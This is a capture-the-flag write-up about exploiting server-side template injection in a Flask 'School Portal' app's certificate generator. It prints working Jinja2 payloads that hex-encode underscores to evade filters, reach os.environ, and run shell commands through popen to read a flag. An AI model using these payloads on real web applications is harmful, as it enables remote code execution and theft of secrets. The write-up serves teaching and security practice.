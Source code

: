 # School Portal - Server-Side Template Injection (SSTI) Writeup

## Challenge Overview
The School Portal challenge involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a Flask web application to retrieve a flag stored as an environment variable.

## Initial Reconnaissance

### Application Analysis
Upon accessing the application, we discover a school portal system with the following features:
- User registration and authentication
- Dashboard functionality
- Certificate generation system

![Home Page](home_page.png)
*Initial landing page of the School Portal*

![Registration](registeration.png)
*User registration form*

![Dashboard](dashboard.png)
*User dashboard interface*

## Vulnerability Discovery

### Certificate Generation Feature
The application includes a certificate generation feature that appears to accept the certificate name . This is often a prime target for template injection attacks.

![Certificate Generation Form](certificate_generation.png)
*Certificate generation*

### SSTI Detection and Testing
During testing of the certificate generation functionality, we started with a basic SSTI detection payload to see if the application processes user input through a template engine.

**Initial Test Payload:** `{{7*7}}`

![Generated Certificate with SSTI Test](generated_certificate.png)
*Result of testing {{7*7}} - Notice the output shows "49" indicating successful template injection*

The successful execution of the mathematical expression `{{7*7}}` returning `49` confirms that the application is vulnerable to Server-Side Template Injection, likely using Jinja2 template engine based on Flask framework indicators.

![Further SSTI Testing](trying ssti.png)
*Initial Test Payload*

## Exploitation Process

### Step 1: Environment Variable Enumeration
Since CTF flags are commonly stored as environment variables, we crafted a payload to access the application's environment:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('environ')}}
```

**Payload Breakdown:**
- `request|attr('application')` - Access the Flask application object
- `attr('\x5f\x5fglobals\x5f\x5f')` - Access global variables (encoded `__globals__`)
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` - Get builtins module
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` - Import os module
- `attr('environ')` - Access environment variables

**Note:** Hex encoding (`\x5f`) is used to bypass potential filters that might block `__` sequences.

![Environment Variables](get env vraiables.png)
*Environment variable enumeration results showing available environment variables*

### Step 2: Flag Extraction Optimization
The initial payload revealed environment variables but the flag output was truncated. To properly extract the complete flag, we refined our approach:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo $FLAG_00_This_real | fold -w 50')|attr('read')()}}
```

**Payload Improvements:**
- `attr('popen')('echo $FLAG_00_This_real | fold -w 50')` - Execute shell command to echo the flag
- `fold -w 50` - Format output with line breaks every 50 characters for better readability
- `attr('read')()` - Read the command output

![Flag Extraction](flag.png)
*Successfully extracted flag using the optimized SSTI payload*

## Flag
The flag was successfully extracted using the optimized SSTI payload.


## Difficulty: Easy
This challenge demonstrates the importance of secure template handling and the risks associated with Server-Side Template Injection vulnerabilities.
